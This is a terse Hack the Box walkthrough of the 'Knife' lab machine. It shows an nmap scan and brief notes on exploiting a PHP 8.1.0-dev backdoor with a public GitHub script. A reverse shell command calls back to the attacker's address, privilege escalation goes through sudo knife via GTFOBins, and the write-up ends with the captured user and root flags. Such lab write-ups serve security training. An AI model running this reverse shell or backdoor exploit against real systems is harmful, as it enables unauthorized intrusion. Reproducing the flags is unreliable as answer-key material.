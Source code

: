 ```yaml
---
title: Knife - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Knife.png
---
```

---
title: 2024-10-12-Knife - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Knife.png
---
### Scan
```
└─# nmap -sVC -p- --open 10.10.10.242
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-09 06:50 EDT
Nmap scan report for 10.10.10.242
Host is up (0.13s latency).
Not shown: 65027 closed tcp ports (reset), 506 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.35 seconds
```
### Enum
Nothing gives. Wappalyzer to rescue. PHP 8.1.0-dev with RCE
Searchplsoit out the box works
backdoor
sudo -l funnels us to knife
GTFOBINS ftw to upgrade.
Doesnt work. got better script from git after trying manually https://github.com/flast101/php-8.1.0-dev-backdoor-rce
`python3 revshell_php_8.1.0-dev.py http://knife.htb 10.10.14.11 9999`
revshell now instead of backdoor. try gtfo https://gtfobins.github.io/gtfobins/knife/
boom
USER:a0cfa4a8c7b226a6cc2424b0bdb4b6ee
ROOt:7e22633bd6cf3cdbe94295e26a2a8874
